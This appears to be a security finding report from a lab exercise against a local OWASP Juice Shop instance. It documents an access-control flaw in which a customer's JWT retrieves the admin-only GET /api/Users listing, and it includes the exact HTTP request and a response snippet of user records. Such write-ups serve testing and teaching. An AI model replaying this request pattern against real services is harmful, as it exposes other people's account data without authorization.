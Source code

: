 # 🔓 Broken Access Control (BAC) Finding Report

**OWASP Top 10 Category:** A01:2021 - Broken Access Control
**Severity:** **High**

---

## 1. Description

* **Vulnerability:** Insecure Direct Object Reference (IDOR) against a collection endpoint. An authenticated user with a low-privilege role (`customer`) was able to bypass the server's authorization layer by accessing an API endpoint reserved exclusively for Administrators.
* **Target:** REST API Endpoint: `GET /api/Users`
* **Impact:** **Unauthorized disclosure of sensitive data** for all system users, including IDs, email addresses, and roles (`admin`, `deluxe`). This exposure provides critical information for further targeted attacks.

## 2. Step-by-Step Exploitation (Proof of Concept)

The attack successfully leveraged a valid customer session to access an admin-only API resource.

* **2.1 Initial Observation:** Logged in as a standard customer. The session used a valid JWT token with the claim `"role": "customer"`.
* **2.2 Attack Method:** The valid customer JWT was extracted and used to authenticate a direct request to the sensitive API endpoint. The request was sent via Burp Suite Repeater.
* **2.3 Request Sent (via Burp Repeater):**
    ```http
    GET /api/Users HTTP/1.1
    Host: 127.0.0.1:3000
    Authorization: Bearer [VALID_CUSTOMER_JWT_TOKEN]
    Accept: application/json
    ```
* **2.4 Result/Proof:**
    * The server returned a successful **HTTP 200 OK** status instead of a `403 Forbidden` error.
    * The response body contained a JSON array listing all user objects in the database, including all administrative and deluxe accounts.
    * **Response Snippet:**
        ```json
        {
          "status":"success",
          "data":[
            {"id":1,"email":"admin@juice-sh.op","role":"admin", ...},
            {"id":4,"email":"bjoern.kimminich@gmail.com","role":"admin", ...},
            // ... (Includes all users)
          ]
        }
        ```
  * **Screenshot: Successful Access to `/api/Users` as Customer**
        !(broken access control output.png)
